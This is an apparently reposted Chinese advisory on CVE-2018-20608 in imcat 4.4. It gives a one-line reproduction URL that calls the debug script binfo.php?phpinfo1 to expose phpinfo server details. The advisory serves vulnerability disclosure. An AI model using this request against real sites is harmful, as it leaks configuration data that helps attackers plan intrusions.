

# （CVE-2018-20608）Imcat 4.4 敏感信息泄露

> 原文：[https://www.zhihuifly.com/t/topic/2973](https://www.zhihuifly.com/t/topic/2973)

# （CVE-2018-20608）Imcat 4.4 敏感信息泄露

## 一、漏洞简介

imcat是一套基于PHP的开源建站系统。 imcat 4.4版本中存在安全漏洞。远程攻击者可借助root/tools/adbug/binfo.php?phpinfo1 URI利用该漏洞获取信息。

## 二、漏洞影响

imcat 4.4

## 三、复现过程

```
http://www.0-sec.org/root/tools/adbug/binfo.php?phpinfo1 
```



## 参考链接

> https://github.com/AvaterXXX/CVEs/blob/master/imcat.md